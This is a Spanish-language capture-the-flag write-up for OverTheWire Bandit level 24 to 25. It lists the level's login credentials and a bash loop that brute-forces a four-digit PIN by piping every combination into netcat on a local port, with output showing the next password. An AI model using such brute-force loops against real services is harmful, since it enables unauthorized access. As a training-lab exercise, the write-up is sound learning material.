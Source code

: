 ## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time

## Datos de acceso
+ user -> bandit24
+ password -> VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar


## Solución
``` bash

bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
bandit24@bandit:~$ 









```
## Notas adicionales
se realiza un script que permita generar pines de 4 digitos (con un ciclo 'for') y se mande al servidor junto con el password. 
{0000...1000} -> genera numero desde 0000 hasta 1000



## Referencias